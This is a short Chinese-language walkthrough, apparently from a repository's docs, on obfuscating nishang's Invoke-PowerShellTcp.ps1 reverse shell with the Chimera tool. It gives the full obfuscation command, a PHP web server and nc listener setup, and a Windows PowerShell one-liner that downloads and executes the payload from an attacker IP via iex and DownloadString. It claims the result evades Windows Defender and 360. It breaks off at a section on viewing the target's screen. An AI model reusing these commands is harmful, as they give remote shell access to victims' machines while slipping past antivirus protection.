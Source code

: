 **这个工具的shells中自带了改写的nishang invoke-powershelltcp.ps1文件，我们只需要修改ip和端口，之后用chimera工具对其进行混淆就可以直接使用**

**kali**

**修改 shells/Invoke-PowerShellTcp.ps1 的最后一行的ip+端口为监听的ip和端口，之后执行下面的命令**

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,invoke-expression,out-string,write-error -j -g -k -r -p

cd /tmp/&&php -s 0:80  #开启web服务

nc -nvlp 8888     #另开一个终端开启监听
```

**在/tmp/目录下生成一个混淆过的chimera.ps1 文件**

**widows:**

```
powershell iex (New-Object net.webclient).DownloadString('http://192.168.31.113/chimera.ps1')
```

**kali即可收到反弹的powershell，****并且不会触发windowsdefender 和360 ****会被火绒拦截**

![image-20240309184538994](./resources/images/5-3.png)

### 查看目标屏幕

**kali :  nc -nvlp 6666 |nc -nvlp 9999**

**目标机器：**
